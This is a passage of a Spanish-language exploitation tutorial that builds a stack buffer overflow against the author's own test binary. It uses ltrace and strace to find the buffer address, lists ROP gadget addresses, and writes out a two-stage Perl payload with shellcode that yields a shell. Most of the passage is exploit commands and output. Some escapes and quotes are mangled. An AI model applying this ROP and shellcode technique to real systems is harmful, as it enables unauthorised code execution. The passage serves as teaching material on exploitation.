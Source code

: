 Ahora calculemos en qué dirección leer.  
```$ ltrace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  
__libc_start_main(0x80484f5, 2, 0xffffd354, 0x8048540 <unfinished ...>  
strcpy(0xffffd200, "130026032513333152001300Ph//shh/bin211343PS211341260v1322315"...) = 0xffffd200  
puts("130026032513333152001300Ph//shh/bin211343PS211341260v1322315"...1���1�̀1�Ph//shh/bin��PS���  
1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAл���l���l�� ������0l��  
) = 165  
```  
Vemos que strcpy escribe en 0xffffd200, por lo que esa es la dir de buf. Teniendo en cuenta que desde buf hasta EIP(s) van 140 bytes, y que luego escribimos 6 direcciones (32 bits cada una, 4 bytes), hacen

140 + 24 = \[espera que... gnome-calculator\]164

0xffffd200+0xa4 = 0xffffd2a4

Por cierto, el hecho de que ltrace no haya acabado es porque se ha quedado esperando el read(). Podemos comprobar que todo ha funcionado perfectamente con strace:  
```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  
execve("/home/arget/vuln", ["/home/arget/vuln", "130026032513333152001300Ph//shh/bin211343PS211341260v1322315"...], 0x7fffffffe228 /* 39 vars */) = 0  
strace: [ Process PID=17487 runs in 32 bit mode. ]  
[...]  
read(0,```  
Perfecto. Ajustemos ahora las direcciones

Parte 1 (argumento):
0xf7fdbbd0 xor eax, eax ; ret
0xf7fd6cb5 inc eax ; add al, 1 ; ret
0xf7fd6cb6 add al, 1
0xf7e01e03 pop ecx ; ret
0xffffd2a4                   -> ya sabemos dónde quedar
0xf7fd6c30 int 0x80 ; ret

Parte 2 (stdin) \[colocada en 0xffffd2a4\]:  
0xf7eb9240  
0xf7e05fdb  
0xffffd000  
0x00010000  
0x00000007  
0xf7de9be7  
0xffffd200  
0xf7dde182 call eax

Bien, ya estamos listos para explotar  
```Primera parte:  
"`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xa4xd2xffxff" . "x30x6cxfdxf7"'`"```

Segunda parte:  
perl -e ‘print «x40x92xebxf7» . «xdbx5fxe0xf7» . «x00xd0xffxff» . «x00x00x01x00» . «x07x00x00x00» . «xe7x9bxdexf7» . «x00xd2xffxff» . «x82xe1xddxf7″‘

Explotación:  
`$ perl -e 'print "x40x92xebxf7" . "xdbx5fxe0xf7" . "x00xd0xffxff" . "x00x00x01x00" . "x07x00x00x00" . "xe7x9bxdexf7" . "x00xd2xffxff" . "x82xe1xddxf7"' > a.txt`

$ (cat a.txt ; cat) | /home/arget/vuln «\`cat sc.o«perl -e ‘print «A»x(140-33) . «xd0xbbxfdxf7» . «xb5x6cxfdxf7» . «xb6x6cxfdxf7» . «x03x1exe0xf7» . «xa4xd2xffxff» . «x30x6cxfdxf7″‘\`»  
1���1�̀1�Ph//shh/bin��PS���  
1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAл���l���l�� ������0l��  
whoami  
arget
```